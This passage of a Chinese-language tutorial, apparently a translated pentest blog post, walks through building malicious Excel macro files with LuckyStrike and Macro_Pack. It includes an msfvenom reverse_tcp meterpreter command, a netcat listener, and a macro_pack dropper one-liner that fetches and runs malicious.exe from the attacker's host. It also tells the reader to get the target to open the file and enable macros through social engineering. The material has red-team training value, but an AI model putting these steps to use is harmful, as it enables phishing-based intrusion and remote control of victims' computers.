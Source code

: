![img](https://i0.wp.com/1.bp.blogspot.com/-4yRMGJ-zkuM/XlaWN0yklKI/AAAAAAAAi08/SWiZ9uys_WIsBiTWACCAuR5vipIJKWU-ACLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

选择有效载荷后，我们被要求提供有效载荷的标题。然后，它要求我们提供目标IP地址和端口。这些是可选参数，因此我们通过按Enter跳过了它们。在描述中，我们声明“ netcat”作为参考。接下来，我们需要选择有效负载类型。现在我们需要选择有效载荷类型。在为有效负载创建PowerShell脚本时，我们选择了相同的脚本。然后，LuckyStrike要求我们提供有效负载文件的路径。进行尽职调查后，LuckyStrike将有效负载添加到其目录中。 

![img](https://i1.wp.com/1.bp.blogspot.com/-g4Izh9Nbo4I/XlaWOBIDLCI/AAAAAAAAi1A/8NtO6ABJ45wSYoR6UrzjCa5kVc0S2M12QCLcBGAsYHQ/s1600/21.png?w=687&ssl=1)

现在，为了前进，我们需要进入主菜单。这可以通过使用数字99来实现。在主菜单中，我们需要选择有效负载选项。这可以使用数字1来实现。这将为我们提供有效负载选项子菜单。在此菜单中，我们需要使用数字1选择有效负载。进入“选择有效负载”选项后，系统会询问我们要用作输出文件的类型。我们选择Excel文件。这将向我们发送添加的有效负载列表。这里有我们之前添加的revshell有效负载。选择有效负载后，我们会询问感染类型。这是LuckyStrike用来混淆的方法。我们选择nonB64方法。您可以根据自己的喜好选择任何一种方法。

![img](https://i0.wp.com/1.bp.blogspot.com/-6qEoy5HUH2U/XlaWOf_SBAI/AAAAAAAAi1E/NHgy5iaNJo4bleQkVNYthG3tdP8YCT7dgCLcBGAsYHQ/s1600/22.png?w=687&ssl=1)

现在，已添加有效负载。然后，我们返回主菜单以生成最终的恶意Excel文件。在主菜单中，通过输入数字3选择“文件”选项。在“文件选项”菜单中，通过输入数字1选择“生成新文件”选项。这将启动创建带有恶意有效负载的Excel宏的过程。创建有效负载后，LuckyStrike为我们提供了有效负载的位置。

![img](https://i2.wp.com/1.bp.blogspot.com/-Ssca_JckrpM/XlaWO46vasI/AAAAAAAAi1I/vgOMSQ5jQ-Aa36eUJHxvu0Lv8jLiV0I4gCLcBGAsYHQ/s1600/23.png?w=687&ssl=1)

我们在Windows资源管理器中打开给定位置，以查找受感染名称的Excel文件。现在我们需要与Target共享此文件，并鼓励他/她打开文件并启用宏。

![img](https://i1.wp.com/1.bp.blogspot.com/-xvTgaI6zPH8/XlaWPZO0O0I/AAAAAAAAi1M/CUcEXpD3YmckVWc8TxFDG4aenYjN8uycACLcBGAsYHQ/s1600/24.png?w=687&ssl=1)

我们将在Kali机器上使用创建时在有效负载中提到的端口运行监听程序。现在，一旦目标在Excel文件上启用了宏，我们将拥有其PowerShell会话，如下图所示。

| 1    | nc -lvp 1234 |
| ---- | ------------ |
|      |              |

![img](https://i0.wp.com/1.bp.blogspot.com/-wci5l2X1jeA/XlaWPvgBotI/AAAAAAAAi1Q/2mHAyHnhtKoU_yeu9puYFeDhAoaO3vVCACLcBGAsYHQ/s1600/25.png?w=687&ssl=1)

### **Macro_Pack**

我们列表中的下一个工具是Macro_Pack。该工具的工作与LuckyStrike的工作非常相似。首先，我们需要一个有效负载来生成会话。为此，我们将使用MSFVenom工具。在我们的Kali机器中，我们运行了MSFVenom工具并制作了有效负载，如下图所示。

| 1    | msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.152.131 lport=6666 -f exe >> malicious.exe |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-F0oAgQ4w8oE/XlaWPzMieGI/AAAAAAAAi1U/Fj_X1muh1mYXZkc9jub-wfdb1Lu-mmCPQCLcBGAsYHQ/s1600/26.png?w=687&ssl=1)

创建有效负载后，我们将运行一个python单一代码并将有效负载托管在本地端口80上。

此后，我们将移至Windows机器，在这里我们将下载该工具，然后使用macro_pack创建一个嵌入了恶意负载的Excel文件。这可以使用下面提到的一种衬纸来实现。

| 1    | echo "http://192.168.152.131/malicious.exe" "dropped.exe" \| .\macro_pack.exe -o -t DROPPER -G "drop.xlsm" |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-jC2bxsQUGBQ/XlaWQPJPY_I/AAAAAAAAi1Y/VbQVaZfgHYEoczjjaZEoSV4WgzusKOPjACLcBGAsYHQ/s1600/27.png?w=687&ssl=1)

我们去了Macro_packer创建有效负载的位置，然后使用我们的一些社会工程学技能将有效负载转移到目标受害者。

